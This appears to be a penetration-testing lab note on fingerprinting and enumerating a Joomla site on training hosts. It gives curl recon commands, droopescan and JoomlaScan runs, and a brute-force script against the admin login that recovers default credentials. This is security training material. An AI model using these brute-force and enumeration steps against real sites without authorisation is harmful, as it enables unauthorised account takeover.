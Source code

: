 # Joomla - Discovery & Enumeration

Joomla is a free and open-source CMS used for discussion forums, photo galleries, e-Commerce, user-based communities, and more.

It is written in PHP and uses MySQL in the backend.

## Discovery/Footprinting

curl -s http://dev.inlanefreight.local/ | grep Joomla

	<meta name="generator" content="Joomla! - Open Source Content Management" />


Check robots.txt :

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/

curl -s http://dev.inlanefreight.local/README.txt | head -n 5

1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging

curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -

<?xml version="1.0" encoding="UTF-8"?>
<extension version="3.6" type="file" method="upgrade">
  <name>files_joomla</name>
  <author>Joomla! Project</author>
  <authorEmail>admin@joomla.org</authorEmail>
  <authorUrl>www.joomla.org</authorUrl>
  <copyright>(C) 2005 - 2019 Open Source Matters. All rights reserved</copyright>
  <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
  <version>3.9.4</version>
  <creationDate>March 2019</creationDate>

## Enumeration

https://github.com/droope/droopescan
sudo pip3 install droopescan
droopescan scan joomla --url http://dev.inlanefreight.local/

--> not much information aside the version

we can also try https://github.com/drego85/JoomlaScan (requires python 2.7)

sudo python2.7 -m pip install urllib3
sudo python2.7 -m pip install certifi
sudo python2.7 -m pip install bs4
python2.7 joomlascan.py -u http://dev.inlanefreight.local

### Bruteforce

The default administrator account on Joomla installs is admin
But no default password

https://github.com/ajnik/joomla-bruteforce

sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 
admin:admin



## LAB

IP=10.129.75.135
printf "%s\t%s\n\n" "$IP" "app.inlanefreight.local" | sudo tee -a /etc/hosts

git clone https://github.com/drego85/JoomlaScan
sudo python2.7 -m pip install urllib3
sudo python2.7 -m pip install certifi
sudo python2.7 -m pip install bs4
cd JoomlaScan/
python2.7 joomlascan.py -u http://app.inlanefreight.local

Traceback (most recent call last):
  File "joomlascan.py", line 4, in <module>
    import requests
ImportError: No module named requests

sudo pip3 install droopescan
droopescan scan joomla --url http://app.inlanefreight.local/

[+] Possible version(s):                                                        
    3.10.0-alpha1

git clone https://github.com/ajnik/joomla-bruteforce
cd joomla-bruteforce/
sudo python3 joomla-brute.py -u http://app.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:turnkey